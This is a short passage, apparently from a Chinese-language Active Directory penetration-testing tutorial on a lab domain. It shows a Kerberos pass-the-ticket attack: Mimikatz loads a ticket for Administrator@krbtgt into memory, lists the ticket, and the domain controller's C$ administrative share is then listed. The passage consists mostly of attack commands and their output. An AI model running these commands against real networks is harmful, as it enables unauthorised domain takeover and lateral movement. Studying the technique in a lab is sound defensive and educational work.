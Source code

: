 ![](../images/59bc71f0d249a0d4dd63bf25ef154997.png)

把票据导入到内存中，可以看到成功访问域控

```plain
mimikatz # kerberos::ptt C:\Users\administrator\Desktop\mimikatz_trunk\x64\[0;7d2fa]-2-0-40e10000-Administrator@krbtgt-SEC.COM.kirbi

* File: 'C:\Users\administrator\Desktop\mimikatz_trunk\x64\[0;7d2fa]-2-0-40e10000-Administrator@krbtgt-SEC.COM.kirbi': OK

mimikatz # kerberos::list

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 2024/9/7 19:28:31 ; 2024/9/8 5:28:31 ; 2024/9/14 19:28:31
   Server Name       : krbtgt/SEC.COM @ SEC.COM
   Client Name       : Administrator @ SEC.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;

mimikatz # exit
Bye!

C:\Users\administrator\Desktop\mimikatz_trunk\x64>dir \\dc1.sec.com\C$
 驱动器 \\dc1.sec.com\C$ 中的卷没有标签。
 卷的序列号是 BCFE-B05E

 \\dc1.sec.com\C$ 的目录

2024/06/02  05:12    <DIR>          inetpub
2021/05/08  16:20    <DIR>          PerfLogs
2024/08/16  20:53    <DIR>          Program Files
2021/05/08  22:23    <DIR>          Program Files (x86)
2024/08/16  21:26                12 test.txt
2024/08/18  01:06    <DIR>          Users
2024/08/18  17:42    <DIR>          Windows
               1 个文件             12 字节
               6 个目录 200,186,126,336 可用字节

C:\Users\administrator\Desktop\mimikatz_trunk\x64>
```
